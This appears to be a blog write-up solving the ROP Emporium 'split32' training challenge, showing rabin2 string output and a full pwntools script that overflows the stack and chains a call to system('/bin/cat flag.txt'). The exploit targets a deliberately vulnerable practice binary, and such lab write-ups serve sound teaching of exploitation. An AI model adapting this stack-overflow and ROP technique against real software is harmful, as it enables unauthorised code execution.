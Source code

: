 ```yaml
---
layout: post
title: ROP Emporium - split32
---
```


### Prev step to overflow stack
<https://bhrdn.github.io/ROP-Emporium-ret2win32/>

### Find useful string
```bash
rabin2 -z split32
```

```
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x000006f0 0x080486f0  21  22 (.rodata) ascii split by ROP Emporium
001 0x00000706 0x08048706   7   8 (.rodata) ascii 32bits\n
002 0x0000070e 0x0804870e   8   9 (.rodata) ascii \nExiting
003 0x00000718 0x08048718  43  44 (.rodata) ascii Contriving a reason to ask user for data...
004 0x00000747 0x08048747   7   8 (.rodata) ascii /bin/ls
000 0x00001030 0x0804a030  17  18 (.data) ascii /bin/cat flag.txt
```

- 0x08048747 : /bin/ls
- 0x0804a030 : /bin/cat flag.txt

### Payload
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF('split32')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()

payload = '\x90' * cyclic_find('laaa')

FLAG = 0x0804a030

rop = ROP(exe)
rop.system(FLAG)

io.sendline(payload + rop.__str__())
io.interactive()
```